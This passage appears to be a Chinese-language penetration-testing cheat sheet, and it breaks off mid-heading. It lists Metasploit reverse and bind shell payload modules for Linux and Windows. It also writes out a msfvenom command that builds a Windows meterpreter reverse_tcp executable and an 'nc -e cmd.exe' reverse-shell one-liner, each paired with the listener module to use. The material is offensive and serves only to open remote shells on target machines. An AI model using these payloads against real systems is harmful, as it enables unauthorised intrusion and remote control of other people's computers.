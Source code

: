 > > linux/x86/shell_bind_tcp
> >
> > linux/x86/shell_reverse_tcp
> >
> > linux/x64/shell/bind_tcp
> >
> > linux/x64/shell/reverse_tcp
> >
> > linux/x64/shell_bind_tcp
> >
> > linux/x64/shell_bind_tcp_random_port
> >
> > linux/x64/shell_reverse_tcp
>
> windows 相关 payload:
>
> > windows/meterpreter/reverse_tcp
> >
> > windows/meterpreter/bind_tcp
> >
> > windows/meterpreter/reverse_hop_http
> >
> > windows/meterpreter/reverse_http
> >
> > windows/meterpreter/reverse_http_proxy_pstore
> >
> > windows/meterpreter/reverse_https
> >
> > windows/meterpreter/reverse_https_proxy
> >
> > windows/shell_reverse_tcp
> >
> > windows/shell_bind_tcp
> >
> > windows/x64/meterpreter/reverse_tcp
> >
> > windows/x64/meterpreter/bind_tcp
> >
> > windows/x64/shell_reverse_tcp
> >
> > windows/x64/shell_bind_tcp
>
> 目标服务器为 64 位用 x64 监听，反弹 meterpreter 用含有 meterpreter 的模块，反弹普通的 shell （例如 nc），shell_reverse_tcp 模块监听, 例如 msf:
>
> 反弹 shell  
>
> > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 
>
> 监听:
>
> > windows/meterpreter/reverse_tcp
>
> 反弹 shell  
>
> > nc -e cmd.exe ip port 
>
> 监听
>
> > windows/shell_reverse_tcp
>
> meterpreter 下上传 
>